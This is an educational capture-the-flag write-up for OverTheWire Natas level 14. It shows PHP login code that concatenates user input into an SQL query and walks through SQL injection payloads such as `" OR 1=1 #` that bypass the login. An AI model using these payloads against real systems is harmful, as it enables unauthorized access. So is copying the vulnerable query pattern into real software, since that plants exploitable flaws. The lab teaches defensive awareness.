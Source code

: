 # OverTheWire - Natas - Level 14

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> Natas teaches the basics of serverside web-security.

## Challenge Overview

After discovering the `natas14` password in the previous challenge, it can be
used to log into http://natas14.natas.labs.overthewire.org:

![The Index Page](images/level_14/00_index_page.png)

## Initial Analysis

This is a new type of challenge. It contains a pair of `Username` and `Password`
input boxes and a `Login` button.

There is also a `View sourcecode` link that seems like a hint.

## Approach Strategy

1. Click the `View sourcecode` link
1. Make it up from there!

## Step-by-Step Solution

Clicking the `View sourcecode` link show the source code for the web page. The
passwords are censored, but the PHP code for the page is shown:

![Index Source Code](images/level_14/01_index_source_code.png)

Some formatting and comments help to understand what this PHP code is doing:

```php
// Check to see if the "username" input is in the request: in other words, did
// the user click the "Login" button?
if (array_key_exists("username", $_REQUEST)) {
  // Create a connnection to the MySQL database.
  $link = mysqli_connect('localhost', 'natas14', '<censored>');
  mysqli_select_db($link, 'natas14');

  // Set up the SQL query used to check the username and password to see if they
  // are in the database.
  $query = "SELECT * from users where username=\"" . $_REQUEST["username"] . "\" and password=\"" . $_REQUEST["password"] . "\"";

  // Some debug functionality to print the query before running it. This could
  // be enabled using the Developer Tools to add a hidden "debug" element to the
  // form data.
  if (array_key_exists("debug", $_GET)) {
    echo "Executing query: $query<br>";
  }

  // If there is a record in the database table "users" with the given username
  // and password, print out the natas15 password. Otherwise access is denied.
  if (mysqli_num_rows(mysqli_query($link, $query)) > 0) {
    echo "Successful login! The password for natas15 is <censored><br>";
  } else {
    echo "Access denied!<br>";
  }

  mysqli_close($link);
}
```

While this code looks like it does the correct job, it's a classic example of an
SQL injection attack. The user input of `username` and `password` is not
sanitized, so it can be used to exploit this login process.

For this type of SQL injection, it is very helpful to know what SQL query is
executed:

```php
SELECT * from users where username=\"" . $_REQUEST["username"] . "\" and password=\"" . $_REQUEST["password"] . "\"
```

Entering the username `somebody` and password `secret`, the SQL executed is:

```sql
SELECT * from users where username="somebody" and password="secret"
```

Note how the username is in double quotation marks - what if the username itself
actually contained double quotes? For username `somebody" #`, the SQL executed
is:

```sql
SELECT * from users where username="somebody" #" and password="secret"
```

The `#` comment marker is used to throw away the remainder of the query. This
SQL will work if there actually is a username of `somebody`, but that might not
be the case. The username can be expanded to include the clause `OR 1=1`, which
always evaluates to true, and makes the entire clause true. So using the
username `somebody" OR 1=1 #`:

```sql
SELECT * from users where username="somebody" OR 1=1 #" and password="secret"
```

would logically be the same as running:

```sql
SELECT * from users
```

Running this in the web page:

![Index Source Code](images/level_14/02_sql_injection.png)

Clicking the `Login` button gives:

![The Password](images/level_14/03_password.png)

There it is: the `natas15` password (removed).

## Key Takeaways

- SQL injection is a large class of exploits and this simple login exploit is
  just one example
- User input should always be sanitized before use
- Raw SQL queries with appended user input are a classic sign of potential SQL
  injection vulnerabilities

## Beyond the Challenge

It's always a good idea to think about other solutions. This SQL injection could
also be done with the `password` parameter, such as `" OR 1=1 #`:

```sql
SELECT * from users where username="somebody" and password="" OR 1=1 #"
```

It can also be done without using a comment: `" OR "x"="x`:

```sql
SELECT * from users where username="somebody" and password="" OR "x" = "x"
```
